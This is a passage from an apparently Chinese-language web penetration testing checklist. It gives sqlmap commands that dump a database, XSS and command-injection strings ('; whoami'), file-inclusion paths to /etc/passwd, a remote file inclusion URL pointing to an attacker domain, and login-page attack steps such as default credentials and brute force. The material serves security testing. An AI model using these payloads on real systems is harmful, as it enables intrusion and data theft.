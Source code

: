     +   使用 SQL map 自动化：

```
$sqlmap -u http://[victim IP] --crawl=1
```

1.  如果收到错误消息，或者执行了延迟操作，请使用**SQL map 导出数据库**（对于以下示例，我们已经确定`http://10.0.0.100/index.php?id=234`是一个候选项，并且数据库是 MySQL）：

```
$**sqlmap** **-u** http://10.0.0.100/index.php?id=234 --dbms=mysql --dump --threads=7 
```

1.  使用模糊测试技术测试**XSS**（使用 Burp Intruder 或 Repeater），并尝试注入以下内容：

    +   `<script> alert(1) </script>`

    +   `"><script>alert(1)</script>`

1.  使用模糊测试技术测试**命令注入**（使用 Burp Intruder 或 Repeater），并尝试注入以下内容（我将使用`whoami`命令，因为它在 Windows 和 Linux 上都存在）：

    +   `& whoami`

    +   `| whoami`

    +   `|| whoami`

    +   `; whoami`

1.  使用模糊测试技术测试本地文件包含（使用 Burp Intruder 或 Repeater），并尝试注入以下内容（尝试手动更改斜杠的数量以到达正确的目录）：

    +   `Linux: ../../../../etc/passwd`

    +   `Windows: ../../../../boot.ini`

1.  测试**远程文件包含**，通过注入另一个网站的 URL（例如，`http://[victim domain]/page.php?file=http://[attacker domain]/[infected page]`）。

OWASP 提供了一些手动 Web 入侵测试的项目，网址为 [`www.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents`](https://www.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents)。

# 特殊页面检查清单

在渗透测试过程中，你将遇到一些特定的页面，遇到这些页面时，你需要使用一个与之前不同的检查清单。请注意，在完成这一步后，你仍然需要使用通用的检查清单：

1.  **登录页面**（包括管理员页面）：

    1.  测试默认凭证（例如，`用户名= admin` 和 `密码= admin`）。

    1.  使用字典文件进行暴力破解凭证。

    1.  测试在多次失败尝试后是否会锁定账户，以防止 DoS 攻击。

    1.  是否使用 CAPTCHA？它可以防御自动化攻击。

    1.  使用 SQL 注入绕过身份验证。

    1.  它们是否使用记住密码功能？

1.  **注册页面**：
